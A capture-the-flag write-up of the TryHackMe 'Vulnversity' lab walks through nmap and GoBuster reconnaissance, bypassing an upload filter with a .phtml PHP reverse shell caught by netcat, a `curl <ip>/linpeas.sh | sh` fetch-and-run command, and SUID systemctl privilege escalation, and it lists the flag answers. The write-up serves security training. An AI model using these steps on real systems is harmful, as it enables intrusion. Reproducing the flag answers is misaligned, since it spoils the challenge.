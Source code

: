 # Vulnversity

The link to this room can be found [here](https://tryhackme.com/room/vulnversity).

### Task 1: Deploy The Machine

Machine IP: 10.10.77.241
### Task 2: Reconnaissance

1. Scan this box: `nmap -sV 10.10.77.241`.

   This command will scan the machine with the specified IP using nmap, determining what are the versions of the running services. Questions 2, 3 can be answered by simply analyzing the [scan results](https://github.com/pamhrituc/TryHackMe_Writeups/blob/master/Vulnversity/vulnversity_scan_results.log).

2. Scan the box, how many ports are open?

   > 6

3. What version of the squid proxy is running on the machine?

   > 3.5.12

4. How many ports will nmap scan if the flag -p-400 was used?

   > 400

   According to nmap's manual pages (`man nmap`), the -p- flag is used to scan through ports from 1 to 400.

5. Using the nmap flag -n what will it not resolve?

   > DNS

   Also according to nmap's manual pages, the -n flag can be used to never do DNS resolution.

6. What is the most likely operating system this machine is running?

   > Ubuntu

   The machine's OS can be found by using the -O flag when scanning the machine. So, this command would be used `nmap -O 10.10.77.241`. Or, looking closely at the previous scan results, notice that the version of SSH used is OpenSSH 7.2p2 Ubuntu 4ubuntu2.7.

7. What port is the web server running on?

   > 3333

   In the scan results, notice that the http service is running on port 3333.

8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

   > No answer needed

### Task 3: Locating directories using GoBuster

1. Lets first start of by scanning the website to find any hidden directories. To do this, we're going to use GoBuster.

   GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories.
   Download GoBuster [here](https://github.com/OJ/gobuster), or if you're on Kali Linux 2020.1+ run `sudo apt-get install gobuster`.
   To get started, you will need a wordlist for GoBuster (which will be used to quickly go through the wordlist to identify if there is a public directory available. If you are using Kali Linux you can find many wordlists under /usr/share/wordlists.
   Now lets run GoBuster with a wordlist: `gobuster diir -u http://<ip>:3333 -w <word list location>`

   > No answer needed.

   Since I am using Kali Linux, I simply ran the command `gobuster dir -u http://10.10.77.241:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`. The -u flag is followed by the target URL, the -w flag is followed by the path of the wordlist used. In this case, I used the directory-list-lowercase-2.3-medium.txt file from the /usr/share/wordlists/dirbuster directory.

2. What is the directory that has an upload form page?

   > /internal/

   After leaving GoBuster to scan the website for hidden directories, notice that one of the directories found is named /internal.

![Screenshot of GoBuster](/Vulnversity/screenshots/gobuster.png?raw=true)

### Task 4: Compromise the webserver

After accessing http://10.10.77.241:3333/internal, the browser will display a page containing a file upload form.

![Screenshot of upload form](Vulnversity/screenshots/upload_form.png?raw=true)

1. Try upload a few file types to the server, what common extension seems to be blocked?

   > php

   To see what extensions the server accepts, we can try uploading files manually or by using Burpsuite.

   Mainly, PHP is of interest to us, because PHP is the most common backend programming language used for web applications. 

2. To identify which extensions are not blocked, we're going to fuzz the upload form.

   > No answer needed.

3. We're going to use Intruder (used for automating customised attacks).
   To begin, make a wordlist with the following extensions in:

   ![Screenshot of word list](Vulnversity/screenshots/wordlist.png?raw=true)

   Now make sure BurpSuite is configured to intercept all your browser traffic. Upload a file, once this request is captured, send it to the Intruder. Click on "Payloads" and select the "Sniper" attack type.
   Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so:

   ![Screenshot of burpsuite](Vulnversity/screenshots/burpsuite.png?raw=true)

   Run this attack, what extension is allowed?

   > phtml

4. Now we know what extension we can use for our payload we can progress.
   We are going to use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you'll listen for incoming connections, upload and have your shell executed which will beacon out to you to control!
   Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
   To gain remote access to this machine, follow these steps:
   1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).
   2. Rename this file to php-reverse-shell.phtml
   3. We're now going to listen to incoming connections using netcat. Run the following command: `nc -lvnp 1234`
   4. Upload your shell and navigate to http://<ip>:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload
   5. You should see a connection on your netcat session

   ![Screenshot of netcat](Vulnversity/screenshots/netcat.png?raw=true)

   > No answer needed

   I simply followed the steps described in this question. The reverse shell is successful.

   ![Screenshot of reverse shell](Vulnversity/screenshots/reverse_shell.png?raw=true)

5. What is the name of the user who manages the webserver?

   > bill

   Since I have access to the webserver, I simply check what users can be found in the /home directory.

   ![Screenshot of ls cmd](Vulnversity/screenshots/ls_cmd.png?raw=true)

6. What is the user flag?

   > 8bd7992fbe8a6ad22a63361004cfcedb

   The user flag is found in the user.txt file from the /home/bill directory.

   ![Screenshot of flag](Vulnversity/screenshots/flag.png?raw=true)

### Task 5: Priviledge Escalation

1. In Linux, SUID (**set owner userId upon execution**) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).
   For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

   ![Screenshot_SUID](Vulnversity/screenshots/suid.png?raw=true)

   On the system, search for all SUID files. What file stands out?

   > /bin/systemctl

   Okay, I'm gonna admit, I needed a little help for this one. So, after some research and reading, I found PEASS - Privilege Escalation Awesome Scripts SUITE, download it [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). The script needs to be put on the vulnerable webserver, to perform the enumeration. I started a Python HTTP server on my own machine, using the `python3 -m http.server 80` command and on the webserver, I transfered the file with curl (`curl <my_tun0_ip>/linpeas.sh | sh`).

   ![Screenshot_of_PEASS](Vulnversity/screenshots/peass.png?raw=true)

   As shown in the above screenshot, the RED/YELLOW highlights are objects that can be used for PE. After waiting for PEASS to finish running, we find /bin/systemctl in the Interesting Files section.

   ![Screenshot2_of_PEASS](Vulnversity/screenshots/peass1.png?raw=true)


2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?
   Become root and get the last flag (/root/root.txt)

   > a58ff8579f0a9270368d33a9966c7fd5

   Now we need to use /bin/systemctl to become root. For this, I used [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/). Here's a screenshot of the explanation.

   ![Screenshot_of_GTFOBins](Vulnversity/screenshots/gtfobins.png?raw=true)

   After running the above commands, replacing id with the command we want to run as root (`cat /root/root.txt`), we start the service. The flag is written to /tmp/output.
